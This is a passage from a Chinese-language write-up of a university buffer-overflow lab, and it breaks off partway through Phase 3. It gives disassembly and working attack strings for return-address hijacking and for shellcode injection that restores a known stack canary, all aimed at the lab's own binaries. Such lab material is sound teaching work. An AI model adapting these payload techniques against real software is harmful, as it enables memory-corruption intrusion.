









# ICS Bufolab Solution

<del>PWN 实战</del>

利用缓冲区溢出改变栈的内存布局，从而实现不同类型的攻击

> 实验的主要内容是对一组可执行目标程序 phase1~5 实施一系列不同复杂度的缓冲区溢出攻击（buffer overflow attacks），也就是设法通过造成缓冲区溢出来改变程序的运行数据状态（例如使用专门设计的数据替换程序栈中特定位置上的内容）和行为，实现实验预定的目标。
>
> 注意所有阶段都需要实现“无感”攻击，即输入攻击字符串、执行攻击代码后，必须返回目标程序中继续正常执行（跳转回当未发生缓冲区溢出时的原返回地址——阶段1可以略放宽该限制）。

---

## Solution

**五个阶段的大致任务都相同：在 `do_phase` 函数执行返回指令 `ret` 时，不是正常返回到调用过程 `phase` 继续执行，而是转而执行其他指定的内容，并输出指定的结果**；每一阶段的防御措施都在升级

<u>为了方便构造攻击字符串，程序会通过 `digit2hex` 函数将原始字符串转化为十六进制数据</u>，具体来说，利用一个查找表进行对ASCII字符 `'0'`-`'9'`、`'a'`-`'f'`、`'A'`-`'F'` 的十六进制替换，每两个有效字符组成一个字节；跳过空白字符，忽略一对 `#` 及中间的内容（作为注释）

??? quote "Phase 1 的 `digit2hex` 函数的汇编代码"

    ```asm
    00000000004008dd <digit2hex>:
      4008dd:       48 89 7c 24 e8          mov    %rdi,-0x18(%rsp)
      4008e2:       48 89 74 24 e0          mov    %rsi,-0x20(%rsp)
      4008e7:       48 c7 44 24 f8 00 00    movq   $0x0,-0x8(%rsp)
      4008ee:       00 00
      4008f0:       c7 44 24 f4 00 00 00    movl   $0x0,-0xc(%rsp)
      4008f7:       00
      4008f8:       e9 b6 00 00 00          jmp    4009b3 <digit2hex+0xd6>
      4008fd:       48 8b 44 24 e8          mov    -0x18(%rsp),%rax
      400902:       0f b6 00                movzbl (%rax),%eax
      400905:       3c 23                   cmp    $0x23,%al
      400907:       75 14                   jne    40091d <digit2hex+0x40>
      400909:       83 7c 24 f4 00          cmpl   $0x0,-0xc(%rsp)
      40090e:       0f 94 c0                sete   %al
      400911:       0f b6 c0                movzbl %al,%eax
      400914:       89 44 24 f4             mov    %eax,-0xc(%rsp)
      400918:       e9 90 00 00 00          jmp    4009ad <digit2hex+0xd0>
      40091d:       83 7c 24 f4 00          cmpl   $0x0,-0xc(%rsp)
      400922:       74 05                   je     400929 <digit2hex+0x4c>
      400924:       e9 84 00 00 00          jmp    4009ad <digit2hex+0xd0>
      400929:       48 8b 44 24 e8          mov    -0x18(%rsp),%rax
      40092e:       0f b6 00                movzbl (%rax),%eax
      400931:       0f be c0                movsbl %al,%eax
      400934:       83 e0 7f                and    $0x7f,%eax
      400937:       48 98                   cltq
      400939:       0f b6 80 20 0d 40 00    movzbl 0x400d20(%rax),%eax
      400940:       3c ff                   cmp    $0xff,%al
      400942:       75 02                   jne    400946 <digit2hex+0x69>
      400944:       eb 67                   jmp    4009ad <digit2hex+0xd0>
      400946:       48 83 7c 24 f8 00       cmpq   $0x0,-0x8(%rsp)
      40094c:       74 55                   je     4009a3 <digit2hex+0xc6>
      40094e:       48 8b 44 24 f8          mov    -0x8(%rsp),%rax
      400953:       0f b6 00                movzbl (%rax),%eax
      400956:       0f be c0                movsbl %al,%eax
      400959:       83 e0 7f                and    $0x7f,%eax
      40095c:       48 98                   cltq
      40095e:       0f b6 80 20 0d 40 00    movzbl 0x400d20(%rax),%eax
      400965:       0f b6 c0                movzbl %al,%eax
      400968:       c1 e0 04                shl    $0x4,%eax
      40096b:       89 c2                   mov    %eax,%edx
      40096d:       48 8b 44 24 e8          mov    -0x18(%rsp),%rax
      400972:       0f b6 00                movzbl (%rax),%eax
      400975:       0f be c0                movsbl %al,%eax
      400978:       83 e0 7f                and    $0x7f,%eax
      40097b:       48 98                   cltq
      40097d:       0f b6 80 20 0d 40 00    movzbl 0x400d20(%rax),%eax
      400984:       83 e0 0f                and    $0xf,%eax
      400987:       09 d0                   or     %edx,%eax
      400989:       89 c2                   mov    %eax,%edx
      40098b:       48 8b 44 24 e0          mov    -0x20(%rsp),%rax
      400990:       88 10                   mov    %dl,(%rax)
      400992:       48 83 44 24 e0 01       addq   $0x1,-0x20(%rsp)
      400998:       48 c7 44 24 f8 00 00    movq   $0x0,-0x8(%rsp)
      40099f:       00 00
      4009a1:       eb 0a                   jmp    4009ad <digit2hex+0xd0>
      4009a3:       48 8b 44 24 e8          mov    -0x18(%rsp),%rax
      4009a8:       48 89 44 24 f8          mov    %rax,-0x8(%rsp)
      4009ad:       48 83 44 24 e8 01       addq   $0x1,-0x18(%rsp)
      4009b3:       48 8b 44 24 e8          mov    -0x18(%rsp),%rax
      4009b8:       0f b6 00                movzbl (%rax),%eax
      4009bb:       84 c0                   test   %al,%al
      4009bd:       0f 85 3a ff ff ff       jne    4008fd <digit2hex+0x20>
      4009c3:       48 8b 44 24 e0          mov    -0x20(%rsp),%rax
      4009c8:       c3                      ret
    ```

比如：

```asm
68 20 30 40 00	# push $0x403020 #
c3				# ret #
```

这相当于原始输入 `\x68\x20\x30\x40\x00\xc3`，实际进行缓冲区溢出攻击时会使用转义后的十六进制内容作为输入

之后的答案都只会给出转换前的字符串，毕竟转换后的字符串很多不可见字符

<br>

### Phase 1 劫持返回地址

> 本实验的目标是构造有效的攻击字符串，通过造成缓冲区溢出来改变程序的运行行为。
>
> 具体来说，当攻击字符串被目标程序读入后，在 `do_phase` 过程执行 `ret` 指令返回时，不是返回到调用过程 `phase` 中的正常返回地址继续执行，而应转而执行程序中特定地址处的指令序列，使得 `phase` 过程向 `message` 过程传递非零值从而通过本实验。
>

**一句话解释：`do_phase` 函数结束调用时，返回地址劫持为 `message` 函数地址，并且入口参数不为 `0`** 

`objdump` 分析下面的 `do_phase` 函数，发现开辟了 `52` 字节的缓冲区，我们的目的是输入大于缓冲区的内容，覆盖返回地址

```asm
0000000000400815 <do_phase>:
  400815:       48 83 ec 48             sub    $0x48,%rsp
  400819:       48 89 7c 24 08          mov    %rdi,0x8(%rsp)
  40081e:       48 8d 54 24 10          lea    0x10(%rsp),%rdx	# 缓冲区从 rsp + 0x10 开始
  																# 因此缓冲区大小为 0x48 - 0x10 = 56 (Byte)
  400823:       48 8b 44 24 08          mov    0x8(%rsp),%rax
  400828:       48 89 d6                mov    %rdx,%rsi
  40082b:       48 89 c7                mov    %rax,%rdi
  40082e:       e8 aa 00 00 00          call   4008dd <digit2hex>
  400833:       b8 00 00 00 00          mov    $0x0,%eax
  400838:       48 83 c4 48             add    $0x48,%rsp
  40083c:       c3                      ret

000000000040083d <message>:										# 内容略，这里给出了覆盖地址值
																# 大致内容是 “入口参数不为 0，则输出 Task succeeded.”

00000000004008a7 <phase>:
  4008a7:       48 83 ec 28             sub    $0x28,%rsp
  4008ab:       48 89 7c 24 08          mov    %rdi,0x8(%rsp)
  4008b0:       c7 44 24 1c 00 00 00    movl   $0x0,0x1c(%rsp)
  4008b7:       00
  4008b8:       48 8b 44 24 08          mov    0x8(%rsp),%rax
  4008bd:       48 89 c7                mov    %rax,%rdi
  4008c0:       e8 50 ff ff ff          call   400815 <do_phase>
  4008c5:       89 44 24 1c             mov    %eax,0x1c(%rsp)
  4008c9:       8b 44 24 1c             mov    0x1c(%rsp),%eax
  4008cd:       89 c7                   mov    %eax,%edi
  4008cf:       e8 69 ff ff ff          call   40083d <message>
  4008d4:       8b 44 24 1c             mov    0x1c(%rsp),%eax
  4008d8:       48 83 c4 28             add    $0x28,%rsp
  4008dc:       c3                      ret
```

根据栈帧分配，**在缓冲区之后紧接着的栈上 8 Byte 存储 ret 返回地址**，因此这里我们考虑构造 56 字节的冗余数据，然后构造覆盖返回地址：

```asm title="Payload for Phase 1"
# payload = nonsense_data + ret_addr #

# 56-byte nonsense data #
01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16 17 18 19 20
21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40
41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56

# NOW let's overwrite the return address #
CF 08 40 00 00 00 00 00
```

运行程序发现得到了正确的输出：

```asm
❯ ./phase1 phase1.txt
Welcome to the buffer overflow attack lab.
Reading from your solution file ...
Task succeeded.
```

（如果返回地址选择 `0x0040083d`，会因为栈帧安排问题，在 `Task succeeded.` 之后收获段错误，线上评测过不了）

??? tip "使用 pwndbg 可以比较方便地动态查看程序运行时内容"

    图中是 pwndbg-gdb 在遇到段错误之后的相关输出
    
    

<br>

### Phase 2 植入攻击代码

> 本阶段实验的目标是构造有效的攻击字符串，使其被目标程序读入后，在 `do_phase` 过程执行 `ret` 指令返回时，转而执行有效的指令代码，使程序输出实验成功的提示信息并正常结束运行（**要求不出现任何程序运行错误的提示**）。

先给出源汇编程序

??? quote "折叠一下"

    ```asm
    000000000040099b <do_phase>:
      40099b:       48 83 ec 58             sub    $0x58,%rsp
      40099f:       48 89 7c 24 08          mov    %rdi,0x8(%rsp)
      4009a4:       48 8d 44 24 10          lea    0x10(%rsp),%rax				# 缓冲区从 rsp + 0x10 开始
      4009a9:       48 83 c0 34             add    $0x34,%rax					# 到 rsp + 0x10 + 0x34 结束
      4009ad:       8b 15 81 17 20 00       mov    0x201781(%rip),%edx        	# 602134 <secret_number>
                                                                                # rsp + 0x44 存储 canary number
      4009b3:       89 10                   mov    %edx,(%rax)
      4009b5:       48 8d 54 24 10          lea    0x10(%rsp),%rdx
      4009ba:       48 8b 44 24 08          mov    0x8(%rsp),%rax
      4009bf:       48 89 d6                mov    %rdx,%rsi
      4009c2:       48 89 c7                mov    %rax,%rdi
      4009c5:       e8 cf 00 00 00          call   400a99 <digit2hex>
      4009ca:       48 8d 44 24 10          lea    0x10(%rsp),%rax
      4009cf:       48 83 c0 34             add    $0x34,%rax
      4009d3:       8b 10                   mov    (%rax),%edx
      4009d5:       8b 05 59 17 20 00       mov    0x201759(%rip),%eax        	# 602134 <secret_number>
      4009db:       39 c2                   cmp    %eax,%edx					# check canary number
      4009dd:       74 0f                   je     4009ee <do_phase+0x53>
      4009df:       c7 05 6b 17 20 00 01    movl   $0x1,0x20176b(%rip)        	# 602154 <buffer_overflowed>
      4009e6:       00 00 00
      4009e9:       e8 b2 fd ff ff          call   4007a0 <abort@plt>			# abort()
      4009ee:       b8 00 00 00 00          mov    $0x0,%eax
      4009f3:       48 83 c4 58             add    $0x58,%rsp
      4009f7:       c3                      ret
    
    00000000004009f8 <message>:													# 程序略
    
    # phase 部分的主函数
    0000000000400a6c <phase>:
      400a6c:       53                      push   %rbx
      400a6d:       48 83 ec 10             sub    $0x10,%rsp
      400a71:       48 89 7c 24 08          mov    %rdi,0x8(%rsp)
      400a76:       bb 00 00 00 00          mov    $0x0,%ebx
      400a7b:       48 8b 44 24 08          mov    0x8(%rsp),%rax
      400a80:       48 89 c7                mov    %rax,%rdi
      400a83:       e8 13 ff ff ff          call   40099b <do_phase>			# 调用 do_phase
      400a88:       89 c3                   mov    %eax,%ebx
      400a8a:       89 df                   mov    %ebx,%edi					# do_phase 返回值作为 message 入口参数
      400a8c:       e8 67 ff ff ff          call   4009f8 <message>				# 调用 message
      400a91:       89 d8                   mov    %ebx,%eax
      400a93:       48 83 c4 10             add    $0x10,%rsp
      400a97:       5b                      pop    %rbx
      400a98:       c3                      ret
    ```

#### What's new?

添加了 Canary 检测机制：在缓冲区更高的栈地址处存入了一个特定的值，在 `ret` 之前会进行检测，如果被修改了就修改变量 `buffer_overflowed` 值从 `0` 修改为 `1`，并且 `abort()` 终止程序。但是不难发现的是，对于已经编译完成的 `phase2` 可执行程序，其 Canary 值不变

`message` 函数现在会在 `do_phase` 函数之后执行，当且仅当 `do_phase` 的返回值和 `buffer_overflowed` 都不为 0 时输出正确结果

---

我们需要做这两件事：

1- 通过 gdb 等获取 Canary 值（`# 602134 <secret_number>`）

```asm
pwndbg> x 0x602134
0x602134 <secret_number>:       0x1cf5c809
```

2- 构造 payload：首先在缓冲区内注入 Shellcode，在缓冲区溢出之前进行 `nop` 填充（填充 `0x90` 表示 nop），然后用原 Canary 值覆盖，并继续塞入一些无用数据，最后劫持地址为缓冲区起点（缓冲区起点地址可以 gdb 打断点查，大小依旧是 52 byte，编译后不改变）

Shellcode 可以 gcc + objdump 生成，也可以用 pwntools 或一些在线工具（我用的 pwntools）

栈帧结构参考 `do_phase` 函数

```asm title="Payload for Phase 2"
# payload = shellcode + nonsense_data + canary + nonsense_data + shellcode_address #
C7 04 25 54 21 60 00 01 00 00 00         # movl $0x1, 0x602154 #
B8 01 00 00 00                           # mov $0x1, %eax      #
68 88 0A 40 00                           # pushq $0x400a88     #
C3                                       # retq                #

# nonsense data #
90 90 90 90 90 90 90 90 90 90 90 90        
90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90

# canary #
09 C8 F5 1C

# nonsense data #
01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16

# Shellcode_address #
70 FF FF 03
```

这里给出一张 Task succeeded 之前的一张程序状态图。图中 `je` 指令左侧的绿✔表示 Canary 值校验正确；`ret` 后的返回地址说明 Shellcode 被成功执行



??? tip "pwndbg 的更多使用例"

    单步执行
    
    
    
    ------
    
    确认缓冲区数据的填充大小
    
    
    
    ------
    
    确认劫持地址（shellcode 起始地址）
    
    

<br>

### Phase 3 模拟过程调用

> 本阶段实验的目标是构造有效的攻击字符串，使得其被目标程序读入并在 `do_phase` 过程中转换、写入缓冲区后，`do_phase` 过程在执行返回指令时不是正常返回到调用过程 `phase` 继续执行，而是转而执行程序中的一个名为 `target` 的过程并输出期望的字符串。

先给出核心的汇编程序，注释懒得写了，可以看 What's new

??? quote "折叠一下"

    ```asm
    000000000040094f <visit>:
      40094f:       55                      push   %rbp
      400950:       48 89 e5                mov    %rsp,%rbp
      400953:       53                      push   %rbx
      400954:       48 83 ec 28             sub    $0x28,%rsp
      400958:       48 89 7d d8             mov    %rdi,-0x28(%rbp)
      40095c:       48 89 75 d0             mov    %rsi,-0x30(%rbp)
      400960:       48 8b 45 d0             mov    -0x30(%rbp),%rax
      400964:       8b 00                   mov    (%rax),%eax
      400966:       85 c0                   test   %eax,%eax
      400968:       79 07                   jns    400971 <visit+0x22>
      40096a:       b8 00 00 00 00          mov    $0x0,%eax
      40096f:       eb 58                   jmp    4009c9 <visit+0x7a>
      400971:       48 8b 45 d0             mov    -0x30(%rbp),%rax
      400975:       8b 00                   mov    (%rax),%eax
      400977:       48 98                   cltq
      400979:       48 8d 14 85 00 00 00    lea    0x0(,%rax,4),%rdx
      400980:       00
      400981:       48 8b 45 d8             mov    -0x28(%rbp),%rax
      400985:       48 01 d0                add    %rdx,%rax
      400988:       48 89 45 e8             mov    %rax,-0x18(%rbp)
      40098c:       48 8b 45 e8             mov    -0x18(%rbp),%rax
      400990:       48 8d 55 e8             lea    -0x18(%rbp),%rdx
      400994:       48 89 c6                mov    %rax,%rsi
      400997:       bf 18 10 40 00          mov    $0x401018,%edi
      40099c:       b8 00 00 00 00          mov    $0x0,%eax
      4009a1:       e8 1a fe ff ff          call   4007c0 <printf@plt>
      4009a6:       48 8b 45 e8             mov    -0x18(%rbp),%rax
      4009aa:       8b 18                   mov    (%rax),%ebx
      4009ac:       48 8b 45 d0             mov    -0x30(%rbp),%rax
      4009b0:       48 8d 50 04             lea    0x4(%rax),%rdx
      4009b4:       48 8b 45 e8             mov    -0x18(%rbp),%rax
      4009b8:       48 83 c0 04             add    $0x4,%rax
      4009bc:       48 89 d6                mov    %rdx,%rsi
      4009bf:       48 89 c7                mov    %rax,%rdi
      4009c2:       e8 88 ff ff ff          call   40094f <visit>
      4009c7:       01 d8                   add    %ebx,%eax
      4009c9:       48 83 c4 28             add    $0x28,%rsp
      4009cd:       5b                      pop    %rbx
      4009ce:       5d                      pop    %rbp
      4009cf:       c3                      ret
    
    00000000004009d0 <target>:
      4009d0:       55                      push   %rbp
      4009d1:       48 89 e5                mov    %rsp,%rbp
      4009d4:       53                      push   %rbx
      4009d5:       48 83 ec 58             sub    $0x58,%rsp
      4009d9:       48 89 7d a8             mov    %rdi,-0x58(%rbp)
      4009dd:       c7 45 b0 04 00 00 00    movl   $0x4,-0x50(%rbp)
      4009e4:       c7 45 b4 0d 00 00 00    movl   $0xd,-0x4c(%rbp)
      4009eb:       c7 45 b8 37 00 00 00    movl   $0x37,-0x48(%rbp)
      4009f2:       c7 45 bc 15 00 00 00    movl   $0x15,-0x44(%rbp)
      4009f9:       c7 45 c0 02 00 00 00    movl   $0x2,-0x40(%rbp)
      400a00:       c7 45 c4 30 00 00 00    movl   $0x30,-0x3c(%rbp)
      400a07:       c7 45 c8 17 00 00 00    movl   $0x17,-0x38(%rbp)
      400a0e:       c7 45 cc 1b 00 00 00    movl   $0x1b,-0x34(%rbp)
      400a15:       c7 45 d0 13 00 00 00    movl   $0x13,-0x30(%rbp)
      400a1c:       c7 45 d4 24 00 00 00    movl   $0x24,-0x2c(%rbp)
      400a23:       c7 45 d8 27 00 00 00    movl   $0x27,-0x28(%rbp)
      400a2a:       c7 45 dc 2b 00 00 00    movl   $0x2b,-0x24(%rbp)
      400a31:       c7 45 e0 07 00 00 00    movl   $0x7,-0x20(%rbp)
      400a38:       c7 45 e4 21 00 00 00    movl   $0x21,-0x1c(%rbp)
      400a3f:       c7 45 e8 36 00 00 00    movl   $0x36,-0x18(%rbp)
      400a46:       c7 45 ec 1f 00 00 00    movl   $0x1f,-0x14(%rbp)
      400a4d:       48 8b 55 a8             mov    -0x58(%rbp),%rdx
      400a51:       48 8d 45 b0             lea    -0x50(%rbp),%rax
      400a55:       48 89 d6                mov    %rdx,%rsi
      400a58:       48 89 c7                mov    %rax,%rdi
      400a5b:       e8 ef fe ff ff          call   40094f <visit>
      400a60:       89 c3                   mov    %eax,%ebx
      400a62:       83 fb 78                cmp    $0x78,%ebx
      400a65:       75 1e                   jne    400a85 <target+0xb5>
      400a67:       48 8b 45 a8             mov    -0x58(%rbp),%rax
      400a6b:       8b 10                   mov    (%rax),%edx
      400a6d:       48 8b 45 a8             mov    -0x58(%rbp),%rax
      400a71:       48 89 c6                mov    %rax,%rsi
      400a74:       bf 28 10 40 00          mov    $0x401028,%edi
      400a79:       b8 00 00 00 00          mov    $0x0,%eax
      400a7e:       e8 3d fd ff ff          call   4007c0 <printf@plt>
      400a83:       eb 0a                   jmp    400a8f <target+0xbf>
      400a85:       bf 7b 10 40 00          mov    $0x40107b,%edi
      400a8a:       e8 d1 fc ff ff          call   400760 <puts@plt>
      400a8f:       89 d8                   mov    %ebx,%eax
      400a91:       48 83 c4 58             add    $0x58,%rsp
      400a95:       5b                      pop    %rbx
      400a96:       5d                      pop    %rbp
      400a97:       c3                      ret
    
    0000000000400a98 <do_phase>:
      400a98:       55                      push   %rbp
      400a99:       48 89 e5                mov    %rsp,%rbp
      400a9c:       48 83 ec 60             sub    $0x60,%rsp
      400aa0:       48 89 7d a8             mov    %rdi,-0x58(%rbp)
      400aa4:       48 8d 55 b0             lea    -0x50(%rbp),%rdx
